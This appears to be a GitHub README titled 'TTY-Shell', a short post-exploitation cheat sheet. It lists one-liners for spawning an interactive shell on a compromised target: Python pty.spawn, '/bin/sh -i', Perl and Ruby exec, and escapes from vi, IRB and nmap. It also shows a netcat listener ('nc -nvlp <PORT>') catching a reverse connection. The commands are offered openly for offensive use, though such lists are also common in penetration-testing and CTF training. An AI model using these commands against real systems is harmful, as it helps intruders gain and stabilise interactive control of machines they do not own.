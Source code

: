 # TTY-Shell
Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.
# match the target system
## Shell Spawning
- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
## (From within IRB)
- `exec "/bin/sh"`
## (From within vi)
- `:!bash`
- `:set shell=/bin/bash:shell`
## (From within nmap)
- `!sh`
# Example
Listening using `nc -nvlp <PORT>` and we get back connect
<img src="https://github.com/chikyukrish/TTY-Shell/blob/main/ss1.png" widht="250"/>
#
- And we can search for python in the system using `which python` or `which python3`
<img src="https://github.com/chikyukrish/TTY-Shell/blob/main/ss2.png" widht="250"/>
